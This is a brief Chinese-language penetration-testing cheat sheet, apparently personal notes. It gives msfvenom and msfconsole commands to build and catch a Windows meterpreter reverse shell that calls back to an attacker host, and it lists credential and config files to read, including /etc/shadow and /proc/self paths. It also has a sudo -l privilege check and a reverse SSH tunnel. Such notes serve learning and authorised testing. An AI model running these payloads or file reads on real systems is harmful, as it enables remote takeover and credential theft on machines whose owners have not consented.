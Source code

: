 # 渗透测试

## Nmap

### 参考资料

不老的神器：安全扫描器Nmap渗透使用指南：

https://www.freebuf.com/news/141607.html

## Windows 渗透

利用msf套件

反弹shell

生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击机地址> LPORT=<攻击机端口> -f exe > shell.exe
```

上传到靶机后

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <靶机地址>
set LPORT <攻击机端口>
exploit
```

拿到meterpreter shell以后

可以``shell``进入cmd环境



### 参考资料
https://guide.offsecnewbie.com/privilege-escalation/windows-pe


## Linux 渗透

## 敏感文件

```
/etc/passwd
/etc/shadow
```

### ``/proc/self``

```
/proc/self/maps
/proc/self/cwd
/proc/self/status
/proc/self/exe
```

### Apache

```
/etc/httpd/conf/httpd.conf
/etc/apache2/apache2.conf
/etc/apache2/sites-enabled/000-default.conf
```

### 字典

https://github.com/ev0A/ArbitraryFileReadList


### 提权

```
sudo -l
```

### 隧道

ssh port forwarding

```
ssh -R 9001:localhost:9001 root@192.168.19.130
```

